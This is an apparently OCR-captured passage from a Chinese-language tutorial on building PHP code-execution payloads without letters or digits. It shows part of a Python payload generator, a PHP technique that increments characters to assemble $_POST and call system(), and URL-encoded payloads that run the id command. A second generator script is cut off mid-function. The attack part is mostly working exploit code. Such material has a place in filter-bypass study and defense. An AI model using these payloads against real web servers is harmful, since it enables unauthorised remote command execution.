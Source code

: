   ```
             if t[0]==i:
                 #print(i)
                 s1+=t[2:5]
                 s2+=t[6:9]
                 break
         f.close()
     output="(\""+s1+"\"|\""+s2+"\")" #双引号可换单引号
     return(output)
     
  while True:
     param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
     print(param)
  ```

- `++`运算自增构造

  复制

  ```
  <?php
  $a=(_/_._)[0];//直接拼接成字符串并切片
  $o=++$a;//$o=++$a是先把$a进行自增，自增完成之后再将值返回，也就是这一句结束的时候 $a和$o都是O
  $o=++$a.$o;//$o=>PO,$a=>P
  $a++;//Q
  $a++;//R
  $o.=++$a;//$o=>POS,$a=>S
  $o.=++$a;//$o=>POST,$a=>T
  $_=_.$o;//_POST
  $$_[0]($$_[_]);//$_POST[0]($_POST[_]);
  
  //Payload:
  //code=$%ff=(_/_._)[0];$%fe=%2b%2b$%ff;$%fe=%2b%2b$%ff.$%fe;$%ff%2b%2b;$%ff%2b%2b;$%fe.=%2b%2b$%ff;$%fe.=%2b%2b$%ff;$_=_.$%fe;$$_[0]($$_[_]);&0=system&_=id
  //code=$_=(_/_._)[_];$_++;$__=$_.$_++;++$_;++$_;$$_[$_=_.$__.++$_.++$_]($$_[_]);&_POST=system&_=id
  ```

  复制

  ```
  #!/usr/bin/env python3
  #-*- coding:utf-8 -*-
  #__author__: 颖奇L'Amore www.gem-love.com
  import requests
  from urllib.parse import quote_plus
  
  def g(payload, buff):
  	offset = 3 + buff
  	res = ""
  	base = 65
  	for i in range(len(payload)):
  		if payload[i] == '_' or payload[i] == '/':
  			continue
  		_ascii = ord(payload[i])
  		#init
  		underline =  "$" + ("_" * (i + offset))
  		undefined = "$" + ("_" * (len(payload) + offset + 15))
  		var = f"++{underline};$__-={underline};$__++;{underline}/=$__;{underline}=(({undefined}/{undefined}).{underline})"+r"{++$__};$__--;"
  		res += var;
  		tmp = ''
  		if _ascii > base:
  			for i in range(_ascii-base):
  				tmp = tmp + f"++{underline};"
  		res += tmp
  
  ```